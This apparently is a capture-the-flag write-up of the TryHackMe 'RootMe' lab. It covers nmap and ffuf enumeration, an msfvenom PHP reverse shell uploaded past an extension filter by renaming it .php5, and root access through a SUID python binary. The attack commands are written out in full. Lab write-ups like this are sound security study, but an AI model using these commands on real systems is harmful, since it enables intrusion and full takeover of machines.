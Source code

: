 # RootMe

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with ```nmap```. This can be done with the command ```nmap -A -T4 <ip>```.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.6p1 and the server is an Apache server running on ubuntu. For further enumeration we can use ```ffuf``` with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![ffuf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/fuzzing.png)

The output shows us that that there are two hidden directories, panel and uploads. When entering <ip>/panel we can see that there is an upload form.

![panel](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/panel.png)

## Getting a shell
Lets see if we can upload a reverse shell through it. We can create an reverse shell with the command ``` msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. When trying to upload our reverse shell we can see that there is an filter in place that does not accept ```.php``` files. We can try to get around the filter by changing the extension to ```.php5```. That worked! Now we can go to <ip>/uploads and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload ```php/meterpreter_reverse_tcp```. Set the options LHOST <your ip> and LPORT <choosen port>.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/msf.png)

## Privilege escalation
Now that we have gotten onto the computer we can start with the privilege escalation, we can start the enumeration with ```find / -perm -u=s -type f 2>/dev/null``` which will find the executable files with the SUID bit set.

![priv_esc1](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc.png)

As we can see /usr/bin/python has the SUID bit set, we can use this to escalate our privileges with the command ```/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc2.png)

And there we have it!
